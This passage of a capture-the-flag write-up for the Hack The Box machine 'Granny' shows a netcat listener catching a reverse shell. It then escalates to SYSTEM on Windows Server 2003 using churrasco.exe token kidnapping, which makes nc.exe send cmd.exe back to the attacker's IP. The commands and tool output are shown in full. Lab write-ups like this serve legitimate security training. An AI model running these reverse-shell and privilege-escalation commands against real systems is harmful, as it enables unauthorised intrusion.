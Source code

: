 Start a listener to receive the connections

```bash
kali@kali:~/Desktop/tools/win$ hip
HTB IP:10.10.14.15/23
kali@kali:~/Desktop/tools/win$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.15] from granny.htb [10.10.10.15] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

## Root Shell

The box is missing quite a few updates. There are plethora of kernel exploits. I tried copying the binaries for the exploits, but none of them seems to work.

Windows server 2003 and 2008 have a [token kidnapping vulnerability](https://www.notion.so/Windows-Privelege-Escalation-via-Token-Kidnapping-d40705518bf343438f9fcd8be0b2f0d3). We can execute the `churrasco.exe` binary to get `system`.

I was having trouble executing binaries copied to the system. I will be running binaries from `impacket smb` server.

We will be executing `nc.exe` to get a `system` shell.

```bash
c:\windows\system32\inetsrv>\\10.10.14.15\kali\churrasco.exe -d "\\10.10.14.15\kali\nc.exe -e cmd.exe 10.10.14.15 1234"
\\10.10.14.15\kali\churrasco.exe -d "\\10.10.14.15\kali\nc.exe -e cmd.exe 10.10.14.15 1234"
/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 680
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 684
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 696
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```
